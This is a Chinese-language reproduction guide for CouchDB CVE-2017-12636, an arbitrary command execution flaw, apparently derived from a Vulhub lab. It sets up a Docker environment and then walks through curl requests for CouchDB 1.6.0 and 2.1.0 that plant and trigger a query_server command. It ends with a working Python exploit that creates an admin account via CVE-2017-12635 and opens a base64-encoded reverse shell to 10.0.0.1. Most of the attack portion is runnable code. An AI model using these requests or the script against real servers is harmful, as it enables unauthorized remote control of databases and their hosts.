 （CVE-2017-12636）Couchdb 任意命令执行漏洞
==========================================

一、漏洞简介
------------

在2017年11月15日，CVE-2017-12635和CVE-2017-12636披露，CVE-2017-12636是一个任意命令执行漏洞，我们可以通过config
api修改couchdb的配置`query_server`，这个配置项在设计、执行view的时候将被运行。

二、漏洞影响
------------

小于 1.7.0 以及 小于 2.1.1

三、复现过程
------------

### 环境搭建

Couchdb
2.x和和1.x的API接口有一定区别，所以这个漏洞的利用方式也不同。本环境启动的是1.6.0版本，如果你想测试2.1.0版本，可以启动[CVE-2017-12635](https://github.com/vulhub/vulhub/tree/master/couchdb/CVE-2017-12635)附带的环境。

执行如下命令启动Couchdb 1.6.0环境：

    docker-compose up -d

启动完成后，访问`http://www.0-sec.org:5984/`即可看到Couchdb的欢迎页面。

### 漏洞复现

该漏洞是需要登录用户方可触发，如果不知道目标管理员密码，可以利用**CVE-2017-12635**先增加一个管理员用户。

#### 1.6.0 下的说明

依次执行如下请求即可触发任意命令执行：

    curl -X PUT 'http://vulhub:vulhub@www.0-sec.org:5984/_config/query_servers/cmd' -d '"id >/tmp/success"'
    curl -X PUT 'http://vulhub:vulhub@www.0-sec.org:5984/vultest'
    curl -X PUT 'http://vulhub:vulhub@www.0-sec.org:5984/vultest/vul' -d '{"_id":"770895a97726d5ca6d70a22173005c7b"}'
    curl -X POST 'http://vulhub:vulhub@www.0-sec.org:5984/vultest/_temp_view?limit=10' -d '{"language":"cmd","map":""}' -H 'Content-Type:application/json'

其中,`vulhub:vulhub`为管理员账号密码。

第一个请求是添加一个名字为`cmd`的`query_servers`，其值为`"id >/tmp/success"`，这就是我们后面待执行的命令。

第二、三个请求是添加一个Database和Document，这里添加了后面才能查询。

第四个请求就是在这个Database里进行查询，因为我将language设置为`cmd`，这里就会用到我第一步里添加的名为`cmd`的`query_servers`，最后触发命令执行。

#### 2.1.0 下的说明

2.1.0中修改了我上面用到的两个API，这里需要详细说明一下。

Couchdb 2.x 引入了集群，所以修改配置的API需要增加node
name。这个其实也简单，我们带上账号密码访问`/_membership`即可：

    curl http://vulhub:vulhub@www.0-sec.org:5984/_membership

![](./.resource/(CVE-2017-12636)Couchdb任意命令执行漏洞/media/rId29.png)

可见，我们这里只有一个node，名字是`nonode@nohost`。

然后，我们修改`nonode@nohost`的配置：

    curl -X PUT http://vulhub:vulhub@www.0-sec.org:5984/_node/nonode@nohost/_config/query_servers/cmd -d '"id >/tmp/success"'

![](./.resource/(CVE-2017-12636)Couchdb任意命令执行漏洞/media/rId30.png)

然后，与1.6.0的利用方式相同，我们先增加一个Database和一个Document：

    curl -X PUT 'http://vulhub:vulhub@www.0-sec.org:5984/vultest'
    curl -X PUT 'http://vulhub:vulhub@www.0-sec.org:5984/vultest/vul' -d '{"_id":"770895a97726d5ca6d70a22173005c7b"}'

Couchdb
2.x删除了`_temp_view`，所以我们为了触发`query_servers`中定义的命令，需要添加一个`_view`：

    curl -X PUT http://vulhub:vulhub@www.0-sec.org:5984/vultest/_design/vul -d '{"_id":"_design/test","views":{"wooyun":{"map":""} },"language":"cmd"}' -H "Content-Type: application/json"

增加`_view`的同时即触发了`query_servers`中的命令。

### poc

> 修改其中的target和command为你的测试机器，然后修改version为对应的Couchdb版本（1或2），成功反弹shell：

![](./.resource/(CVE-2017-12636)Couchdb任意命令执行漏洞/media/rId32.png)

    #!/usr/bin/env python3
    import requests
    import json
    import base64
    from requests.auth import HTTPBasicAuth

    target = 'http://your-ip:5984'
    command = rb"""sh -i >& /dev/tcp/10.0.0.1/443 0>&1"""
    version = 1

    session = requests.session()
    session.headers = {
        'Content-Type': 'application/json'
    }
    # session.proxies = {
    #     'http': 'http://127.0.0.1:8085'
    # }
    session.put(target + '/_users/org.couchdb.user:wooyun', data='''{
      "type": "user",
      "name": "wooyun",
      "roles": ["_admin"],
      "roles": [],
      "password": "wooyun"
    }''')

    session.auth = HTTPBasicAuth('wooyun', 'wooyun')

    command = "bash -c '{echo,%s}|{base64,-d}|{bash,-i}'" % base64.b64encode(command).decode()
    if version == 1:
        session.put(target + ('/_config/query_servers/cmd'), data=json.dumps(command))
    else:
        host = session.get(target + '/_membership').json()['all_nodes'][0]
        session.put(target + '/_node/{}/_config/query_servers/cmd'.format(host), data=json.dumps(command))

    session.put(target + '/wooyun')
    session.put(target + '/wooyun/test', data='{"_id": "wooyuntest"}')

    if version == 1:
        session.post(target + '/wooyun/_temp_view?limit=10', data='{"language":"cmd","map":""}')
    else:
        session.put(target + '/wooyun/_design/test', data='{"_id":"_design/test","views":{"wooyun":{"map":""} },"language":"cmd"}')

参考链接
--------

> https://vulhub.org/\#/environments/couchdb/CVE-2017-12636/
